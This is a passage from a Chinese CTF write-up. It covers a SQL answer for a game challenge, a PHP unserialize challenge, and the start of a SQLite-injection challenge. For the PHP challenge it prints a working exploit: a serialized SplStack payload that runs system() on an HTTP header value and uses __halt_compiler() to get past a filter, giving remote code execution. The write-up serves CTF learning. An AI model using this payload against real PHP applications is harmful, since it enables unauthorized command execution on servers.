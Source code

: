 主服务器执行
```
INSERT INTO game ( round , choice ) VALUES ('1', 'R'), ('2', 'R'),('3', 'R'), ('4', 'R'),('5', 'R'), ('6', 'R'),('7',
'R'), ('8', 'R'),('9', 'R'), ('10', 'R');
```
在开始挑战处输入答案即可获取flag
### SleepWalker（java
### 4号的罗纳尔多
```
<?php
error_reporting(0);
highlight_file(__FILE__);
class evil{
    public $cmd;
    public $a;
    public function __destruct(){
        if('VanZZZZY' === preg_replace('/;+/','VanZZZZY',preg_replace('/[A-Za-z_\(\)]+/','',$this->cmd))){
            eval($this->cmd.'givemegirlfriend!');
        } else {
            echo 'nonono';
        }
    }
}

if(!preg_match('/^[0a]:[\d]+|Array|Iterator|object|List/i',$_GET['Pochy'])){
	unserialize($_GET['Pochy']);
} else {
	echo 'nonono';
}
```
无参rce
通过内置类splstack绕过匹配O开头的序列化数据；
通过__halt_compiler();来结束 php 代码执行流程，绕过givemegirlfriend!字符串的影响
```
<?php 

class evil{
    public $cmd;
    public $a;
    
}
$evilClass = new evil();
$evilClass->cmd = 'system(next(getallheaders()));__halt_compiler();';
$a = new SplStack();
$a -> push($evilClass);
echo serialize($a);
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35980243/1689323281536-fcc032bf-62c2-4da4-b1b1-ea063265a089.png#averageHue=%23f9f8f7&clientId=u6b8027cc-70f2-4&from=paste&height=789&id=u33df7da0&originHeight=789&originWidth=1362&originalType=binary&ratio=1&rotation=0&showTitle=false&size=113404&status=done&style=none&taskId=u8dae5214-478f-4b21-af4c-3773965b1ae&title=&width=1362)
（这里不知道为什么，参数是在倒数第二个数据那；next(getallheaders())应该是第二个？
### tasks
界面发现项目地址，代码审计，发现sqlite注入点
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35980243/1689324232480-2a33f28f-7d77-46fa-b393-704361b7997c.png#averageHue=%230f141b&clientId=uc33bb396-ec86-4&from=paste&height=768&id=u25de6118&originHeight=768&originWidth=930&originalType=binary&ratio=1&rotation=0&showTitle=false&size=48558&status=done&style=none&taskId=u132e9908-8a9e-45ba-9095-b84877fe59b&title=&width=930)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35980243/1689324304381-87952ea5-c75a-4281-96f5-887aeebcc81a.png#averageHue=%238fc09e&clientId=uc33bb396-ec86-4&from=paste&height=610&id=uf77e6ae3&originHeight=610&originWidth=952&originalType=binary&ratio=1&rotation=0&showTitle=false&size=151722&status=done&style=none&taskId=u03b64d50-4c71-470a-973d-b9e26f49c3f&title=&width=952)

